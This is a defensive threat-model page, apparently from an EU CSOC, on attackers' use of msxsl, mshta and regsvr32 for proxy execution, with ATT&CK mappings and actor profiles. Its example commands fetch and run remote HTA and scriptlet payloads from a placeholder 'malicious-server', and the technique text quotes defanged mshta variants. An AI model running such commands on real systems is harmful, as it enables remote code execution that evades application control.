

# Malicious Code Execution with Windows Utilities

## Metadata

- **UUID**: `d5892ae6-d022-4ac8-858c-c2756067cdac`
- **Schema**: `threat::1.0`
- **Version**: `1`
- **Created**: `2024-11-04`
- **Modified**: `2024-11-04`
- **TLP**: clear (`TLP:CLEAR`)
- **Organisation**: EC DIGIT CSOC (`56b0a0f0-b0bc-47d9-bb46-02f80ae2065a`)

## Description
### 1. Msxsl.exe

**Description**: A command-line XSLT processor that can transform XML data using 
XSL style sheets. Attackers can craft malicious XSL files that execute arbitrary 
code when processed.

Example:

```
msxsl.exe input.xml malicious.xsl
```

### 2. Mshta.exe
**Description**: Executes Microsoft HTML Applications (HTA files). Threat actors use it 
to run malicious scripts hosted locally or remotely.

Example:

```
mshta.exe "http://malicious-server/payload.hta"
```

### 3. Regsvr32.exe
**Description**: Registers and unregisters OLE controls like DLLs and ActiveX controls. 
Threat actors can use it to execute code via scripts.

Example:

```
regsvr32.exe /s /n /u /i:http://malicious-server/script.sct scrobj.dll
```

## Criticality
**Medium** - A Medium priority incident may affect public health or safety, national security, economic security, foreign relations, civil liberties, or public confidence.

## Terrain
> **Threat Actor must have the ability to execute code on a Windows system where the 
specified utilities Msxsl.exe, Mshta.exe, and Regsvr32.exe are present. 
This often requires initial access through phishing, exploitation of vulnerabilities, 
or use of valid credentials.

Domains: Enterprise
Targets: Virtual Machines, Workstations, Laptop
Platforms: Windows, Active Directory, PowerShell**

## Threat Assessment
| Dimension | Assessment | Description |
| --- | --- | --- |
| Severity | Significant incident | A cyber attack which has a serious impact on a large organisation or on wider / local government, or which poses a considerable risk to central government or (inter)national essential services. |
| Impact | Data Breach; Business disruption; Reputational Damages; Legal and regulatory | - |
| Leverage | Elevation of privilege; Tampering; Spoofing | - |
| Viability | Likely | Probable (probably) - 55-80% |
| Kill Chain | Execution | Techniques that result in execution of attacker-controlled code on a local or remote system. |

## Actors
| Actor | ID | Source | Description |
| --- | --- | --- | --- |
| [[Enterprise] FIN7](https://attack.mitre.org/groups/G0046) | `att&ck::G0046` | ('att&ck',) | [FIN7](https://attack.mitre.org/groups/G0046) is a financially-motivated threat group that has been active since 2013. [FIN7](https://attack.mitre.org/groups/G0046) has primarily targeted the retail, restaurant, hospitality, software, consulting, financial services, medical equipment, cloud services, media, food and beverage, transportation, and utilities industries in the U.S. A portion of [FIN7](https://attack.mitre.org/groups/G0046) was run out of a front company called Combi Security and often used point-of-sale malware for targeting efforts. Since 2020, [FIN7](https://attack.mitre.org/groups/G0046) shifted operations to a big game hunting (BGH) approach including use of [REvil](https://attack.mitre.org/software/S0496) ransomware and their own Ransomware as a Service (RaaS), Darkside. FIN7 may be linked to the [Carbanak](https://attack.mitre.org/groups/G0008) Group, but there appears to be several groups using [Carbanak](https://attack.mitre.org/software/S0030) malware and are therefore tracked separately.(Citation: FireEye FIN7 March 2017)(Citation: FireEye FIN7 April 2017)(Citation: FireEye CARBANAK June 2017)(Citation: FireEye FIN7 Aug 2018)(Citation: CrowdStrike Carbon Spider August 2021)(Citation: Mandiant FIN7 Apr 2022) |
| FIN7 | `misp::00220228-a5a4-4032-a30d-826bb55aa3fb` | ('misp',) | Groups targeting financial organizations or people with significant financial assets. |
| [[Enterprise] Cobalt Group](https://attack.mitre.org/groups/G0080) | `att&ck::G0080` | ('att&ck',) | [Cobalt Group](https://attack.mitre.org/groups/G0080) is a financially motivated threat group that has primarily targeted financial institutions since at least 2016. The group has conducted intrusions to steal money via targeting ATM systems, card processing, payment systems and SWIFT systems. [Cobalt Group](https://attack.mitre.org/groups/G0080) has mainly targeted banks in Eastern Europe, Central Asia, and Southeast Asia. One of the alleged leaders was arrested in Spain in early 2018, but the group still appears to be active. The group has been known to target organizations in order to use their access to then compromise additional victims.(Citation: Talos Cobalt Group July 2018)(Citation: PTSecurity Cobalt Group Aug 2017)(Citation: PTSecurity Cobalt Dec 2016)(Citation: Group IB Cobalt Aug 2017)(Citation: Proofpoint Cobalt June 2017)(Citation: RiskIQ Cobalt Nov 2017)(Citation: RiskIQ Cobalt Jan 2018) Reporting indicates there may be links between [Cobalt Group](https://attack.mitre.org/groups/G0080) and both the malware [Carbanak](https://attack.mitre.org/software/S0030) and the group [Carbanak](https://attack.mitre.org/groups/G0008).(Citation: Europol Cobalt Mar 2018) |
| Cobalt | `misp::01967480-c49b-4d4a-a7fa-aef0eaf535fe` | ('misp',) | A criminal group dubbed Cobalt is behind synchronized ATM heists that saw machines across Europe, CIS countries (including Russia), and Malaysia being raided simultaneously, in the span of a few hours. The group has been active since June 2016, and their latest attacks happened in July and August. |
| [[Enterprise] APT28](https://attack.mitre.org/groups/G0007) | `att&ck::G0007` | ('att&ck',) | [APT28](https://attack.mitre.org/groups/G0007) is a threat group that has been attributed to Russia's General Staff Main Intelligence Directorate (GRU) 85th Main Special Service Center (GTsSS) military unit 26165.(Citation: NSA/FBI Drovorub August 2020)(Citation: Cybersecurity Advisory GRU Brute Force Campaign July 2021) This group has been active since at least 2004.(Citation: DOJ GRU Indictment Jul 2018)(Citation: Ars Technica GRU indictment Jul 2018)(Citation: Crowdstrike DNC June 2016)(Citation: FireEye APT28)(Citation: SecureWorks TG-4127)(Citation: FireEye APT28 January 2017)(Citation: GRIZZLY STEPPE JAR)(Citation: Sofacy DealersChoice)(Citation: Palo Alto Sofacy 06-2018)(Citation: Symantec APT28 Oct 2018)(Citation: ESET Zebrocy May 2019)  [APT28](https://attack.mitre.org/groups/G0007) reportedly compromised the Hillary Clinton campaign, the Democratic National Committee, and the Democratic Congressional Campaign Committee in 2016 in an attempt to interfere with the U.S. presidential election.(Citation: Crowdstrike DNC June 2016) In 2018, the US indicted five GRU Unit 26165 officers associated with [APT28](https://attack.mitre.org/groups/G0007) for cyber operations (including close-access operations) conducted between 2014 and 2018 against the World Anti-Doping Agency (WADA), the US Anti-Doping Agency, a US nuclear facility, the Organization for the Prohibition of Chemical Weapons (OPCW), the Spiez Swiss Chemicals Laboratory, and other organizations.(Citation: US District Court Indictment GRU Oct 2018) Some of these were conducted with the assistance of GRU Unit 74455, which is also referred to as [Sandworm Team](https://attack.mitre.org/groups/G0034). |
| APT28 | `misp::5b4ee3ea-eee3-4c8e-8323-85ae32658754` | ('misp',) | The Sofacy Group (also known as APT28, Pawn Storm, Fancy Bear and Sednit) is a cyber espionage group believed to have ties to the Russian government. Likely operating since 2007, the group is known to target government, military, and security organizations. It has been characterized as an advanced persistent threat. |

## ATT&CK Techniques
| Technique | Name | Description |
| --- | --- | --- |
| `T1218.005` | [System Binary Proxy Execution: Mshta](https://attack.mitre.org/techniques/T1218/005) | Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017)   Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)  Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>  They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>  Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta) |
| `T1218.010` | [System Binary Proxy Execution: Regsvr32](https://attack.mitre.org/techniques/T1218/010) | Adversaries may abuse Regsvr32.exe to proxy execution of malicious code. Regsvr32.exe is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs), on Windows systems. The Regsvr32.exe binary may also be signed by Microsoft. (Citation: Microsoft Regsvr32)  Malicious usage of Regsvr32.exe may avoid triggering security tools that may not monitor execution of, and modules loaded by, the regsvr32.exe process because of allowlists or false positives from Windows using regsvr32.exe for normal operations. Regsvr32.exe can also be used to specifically bypass application control using functionality to load COM scriptlets to execute DLLs under user permissions. Since Regsvr32.exe is network and proxy aware, the scripts can be loaded by passing a uniform resource locator (URL) to file on an external Web server as an argument during invocation. This method makes no changes to the Registry as the COM object is not actually registered, only executed. (Citation: LOLBAS Regsvr32) This variation of the technique is often referred to as a "Squiblydoo" and has been used in campaigns targeting governments. (Citation: Carbon Black Squiblydoo Apr 2016) (Citation: FireEye Regsvr32 Targeting Mongolian Gov)  Regsvr32.exe can also be leveraged to register a COM Object used to establish persistence via [Component Object Model Hijacking](https://attack.mitre.org/techniques/T1546/015). (Citation: Carbon Black Squiblydoo Apr 2016) |

## Chaining

### Chaining details
#### implements -> Abuse of Windows Utilities (`atomicity::implements`)
This TVM is implementing the bigger TVM : Abuse of Windows Utilities

- **Target UUID**: `d5039f2c-9fcc-4ba3-ad6a-da8c891ba745`
